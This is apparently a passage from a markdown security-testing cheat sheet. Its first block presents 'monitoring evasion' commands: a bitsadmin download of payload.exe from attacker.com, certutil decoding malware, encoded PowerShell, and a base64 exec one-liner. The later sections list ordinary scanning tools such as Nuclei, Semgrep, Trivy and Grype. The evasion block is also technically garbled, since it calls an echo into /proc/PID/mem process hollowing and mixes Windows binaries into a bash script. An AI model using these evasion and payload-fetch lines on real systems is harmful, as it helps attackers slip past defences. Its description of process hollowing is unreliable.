 ### **🆕 Modern Monitoring Evasion**:
```bash
# Process hollowing to evade monitoring
#!/bin/bash
# Start legitimate process
/usr/bin/legitimate_process &
PID=$!

# Replace memory contents with malicious code
echo "Malicious payload" > /proc/$PID/mem

# EDR/XDR evasion techniques
# Living off the land binaries (LOLBins)
powershell.exe -EncodedCommand <base64_payload>
certutil.exe -decode malware.txt malware.exe
bitsadmin.exe /transfer job http://attacker.com/payload.exe payload.exe

# Memory-only attacks
python -c "exec(__import__('base64').b64decode('payload').decode())"
```

---

## **🆕 Modern Testing Tools & Frameworks (2025)**

### **Next-Generation Security Testing Tools**

#### **AI-Powered Security Testing**:
```bash
# Nuclei with modern templates
nuclei -u https://target.com -t nuclei-templates/ -severity critical,high
nuclei -l targets.txt -w workflows/

# Semgrep for code analysis
semgrep --config=auto src/
semgrep --config=security-audit --severity=ERROR .

# CodeQL for semantic analysis
codeql database create db --language=javascript
codeql database analyze db codeql/javascript-queries:codeql-suites/javascript-security-and-quality.qls
```

#### **Container Security Scanners**:
```bash
# Trivy comprehensive scanning
trivy fs .                    # Filesystem scanning
trivy image alpine:latest     # Container image scanning
trivy k8s cluster            # Kubernetes cluster scanning
trivy repo github.com/user/repo  # Repository scanning

# Grype vulnerability scanning
grype alpine:latest
grype dir:.
grype sbom:./sbom.json

# Cosign for container signing verification
cosign verify --key cosign.pub alpine:latest
cosign triangulate alpine:latest
```
